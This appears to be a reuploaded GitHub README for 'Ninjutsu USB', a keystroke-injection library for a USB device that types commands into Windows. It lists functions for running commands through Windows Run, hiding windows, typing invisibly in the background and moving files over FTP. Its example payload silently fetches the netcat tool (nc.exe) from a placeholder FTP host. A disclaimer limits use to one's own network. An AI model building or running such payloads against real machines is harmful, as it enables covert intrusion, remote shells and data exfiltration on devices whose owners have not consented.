 
<b>DISCLAIMER</b>: Ninjutsu USB is designed to be used in testing and discovering flaws in ones own network with the aim of fixing the flaws detected, <b>DO NOT</b> use the program on networks or devices for which you dont have permission, we are not responsible for whatever damage you cause by using this software or hardware.
<hr/> 


NinjaKeyboard Function List
----
<b>pressAndRelease</b> = Press a key or combination of keyboard and release. usage : pressAndRelease(key_ALT, key_TAB)</br>
<b>press</b> = Press a key or combination of keyboard without release. usage : press(key_ALT, key_TAB)</br>
<b>release</b> = release a key or combination of keyboard. usage : release()</br>
<b>echo</b> = write a text without enter/newline/return. usage : echo("text")</br>
<b>echoEnter</b> = write the text and enter/newline/return. usage : echoEnter("text")</br>
<b>sleep</b> = delay or sleep for "n" milisecond. usage : sleep(5)</br>
<b>winRun</b> = open Windows Run and type a Windows command. usage : winRun("command")</br>
<b>hideWindow</b> = hide an active window not minimize. usage : hideWindow()</br>
<b>writeOnBackground</b> = make the window is not visible, and keep writing. usage : writeOnBackground("text")</br>
<b>minimizeWindow</b> = minimize an active window. usage : minimizeWindow()</br>
<b>winFTP</b> = download a file from FTP server or upload file to FTP server. usage : winFTP("put/get/mput/mget","FTPusername","FTPpassword","FTPhost","FTPport","filename")</br>
<b>done</b> = Turn the LED off when payload is loaded. usage : done()</br>


Example Payload
----
```c
#include <NinjaKeyboard.h>

EthicNinjaKeyboard en;

void setup()
{
  //Inisialisasi program
  en.init(1500);
  //Download single file
  en.winFTP("get","user_ftp","pass_ftp","host_ftp", "port_ftp","nc.exe");
}

void loop() {
  
}


```
Reupload By fireorb
[sumber](https://github.com/EthicNinja/Ninjutsu-USB/)
